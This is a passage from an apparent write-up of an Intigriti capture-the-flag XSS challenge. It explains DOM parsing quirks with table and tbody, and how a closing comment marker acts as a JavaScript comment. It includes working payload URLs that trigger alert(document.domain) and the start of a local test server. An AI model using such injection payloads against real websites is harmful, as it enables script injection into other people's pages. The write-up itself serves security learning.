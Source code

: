 ```html

</select>
```
the `select` element contains leftovers of the previous HTML tags. That's why the `option` element will just be the last element, even if it will added before the leftovers.

However, if using a `table` as the first tag, we get another scenario: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%3E](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%3E)

```html
<table>
    <!-- !!! -->
</table>
```

The `table` does not have the leftovers but only the HTML comment. That's why the `table` tag can also be used for a valid XSS: 
[https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Ctr%3E%3C/tr%3E&xss=%0Aalert(document.domain)](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Ctr%3E%3C/tr%3E&xss=%0Aalert(document.domain))

The resulting DOM looks like this:

```html
<table id="intigriti">
  <tbody>
    <tr></tr>
    <!-- !!! -->
  </tbody>
</table>
```

Even if we did not add a `tbody` element, the browser adds one before the `tr` elements. That leads to `tbody` beeing the last child of the table. The last 4 characters of the `tbody` inner HTML will be ` -->`. That will lead to the following JavaScript added to the DOM with the `xss` set to `%0Aalert(document.domain)`:

```javascript
 -->)]}'
alert(document.domain)
```

This looks weird, but since [https://challenge-0721.intigriti.io/](https://challenge-0721.intigriti.io/) we know, that `<!--` can also be used as a comment in JavaScript. And today we learned, that also the closing one `-->` can be used as a comment. 

### Finding combinations with a bit of automation

After solving the challenge, I asked myself, what would be the valid combinations. I quickly spun up my own server, which basically serves the challenge locally:

```javascript
import { createServer } from "http";
import { parse } from "url";
import { promises as fs } from "fs";

const port = 3000;
const host = `127.0.0.1`;
let challengeContents = ``;

const server = createServer((req, res) => {
  res.setHeader("Content-Type", "text/html");
  res.writeHead(200);

  res.end(
    challengeContents.replace("%%REPLACE%%", parse(req.url, true).query?.html)
  );
```